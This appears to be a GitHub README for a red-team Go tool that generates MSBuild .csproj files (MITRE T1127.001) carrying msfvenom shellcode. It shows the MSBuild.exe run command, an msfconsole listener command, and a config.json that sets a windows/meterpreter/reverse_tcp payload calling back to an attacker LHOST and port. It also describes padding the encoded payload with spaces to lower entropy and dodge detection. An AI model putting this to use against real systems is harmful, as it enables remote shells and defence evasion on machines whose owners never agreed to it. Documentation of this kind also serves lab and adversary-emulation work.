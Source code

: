 # T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild 

Built a golang prog that will create an XML file to be used with the technique to compile code on a host and then execute it.  Uses a config.json file that takes parameters for the configuration, uses an SSH connection to execute and create the payload (or a custom payload), and then creates the XML file or .csproj file.  

![wolfArmor.jpg](/projects/msBuildXML/wolfArmor.jpg)


The application allows you to customize a configuration file and call them as needed.
```txt
Usage (i.e. ./xml.bin -conf new.json):
  -conf string
        Configuration file to read (default "config.json")
```

#### Explanation of the config.json file:

outputFile - This is the file that is created to be used by the following command using msbuild.exe on a host that has .NET 4 installed

```cmd
C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\MSBuild.exe test.csproj
```

outputFileResourceScript - This is a generated resource script for use in metasploit.  The purpose of the resource script is to setup a listener with the specified payload, lhost and lport specified in the configuration file.  Below is the command to execute on metasploit.

```bash
msfconsole -r my.rs
```

customPayload - If a customPayload is placed here the golang program does not connect by SSH to Kali, use msfvenom and then create the raw C shellcode.  If you use a custom payload it needs to be gzipped and then base64 encoded.  Spaces will be added to the payload to decrease the entropy.

sshConfig - These settings are used to connect to Kali through SSH with a public key, then as a string the payload is returned after gzipped and base64 encoded.

metaploitConfig - These settings configure the payload, LHOST, and LPORT to be able to use msfvenom to create the raw shellcode, gzip and base64 and returns it as a string to be used in the c# program inside of the XML.


```json
{
        "outputFile": "test.csproj",
        "outputFileResourceScript": "my.rs",
        "customPayload": "None",
        "sshConfig": {
                "sshKali": "true",
                "sshUsername": "thepcn3rd",
                "sshPubKeyLocation": "/home/thepcn3rd/.ssh/id_rsa",
                "sshHost": "10.27.20.173"
        },
        "metasploitConfig": {
                "payload": "windows/meterpreter/reverse_tcp",
                "LHOST": "10.27.20.173",
                "LPORT": "52000"
        }
}
```

**Definition:** Entropy can be used as an indication of whether the file might contain malicious content.  For example, ASCII text files are typically highly compressible and have low entropy.  Encrypted data is typically not compressible, and usually has a high entropy.

References:

https://gist.githubusercontent.com/dxflatline/99de0da360a13c565a00a1b07b34f5d1/raw/63586f21b84d28c121418ab78620932ec9c546e6/msbuild_sc_alloc.csproj

Hack the Box - Ascension

https://attack.mitre.org/techniques/T1127/001/

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1127.001/src/T1127.001.csproj
